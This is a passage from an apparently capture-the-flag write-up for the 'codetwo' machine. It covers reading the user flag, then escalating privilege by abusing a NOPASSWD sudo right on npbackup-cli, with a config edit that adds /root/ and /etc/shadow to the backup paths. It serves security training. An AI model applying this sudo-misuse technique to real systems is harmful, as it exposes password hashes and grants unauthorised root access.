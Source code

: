 <figure><img src="../../../.gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>

We are in as marco's user.&#x20;

### User flag

```bash
cat /home/marco/user.txt
```



## Privilege Escalation

Looking the marco's group, we can see that he is inside the backup group.

```bash
id

uid=1000(marco) gid=1000(marco) groups=1000(marco),1003(backups)
```

Checking the sudo rights, marco has the sudo rights to the `npbackup-cli` tool

```bash
sudo -l

User marco may run the following commands on codetwo:
    (ALL : ALL) NOPASSWD: /usr/local/bin/npbackup-cli
```

### Misconfigurate Backup rights

Editing the backup configuration file from the marco's home directory we can use this tool to backup the /root directory and the /etc/shadow file.&#x20;

```bash
nano npbackup.conf
```

```
[..snip..]
    backup_opts:
      paths:
      - /home/app/app/
      - /root/
      - /etc/shadow
[..snip..]
```
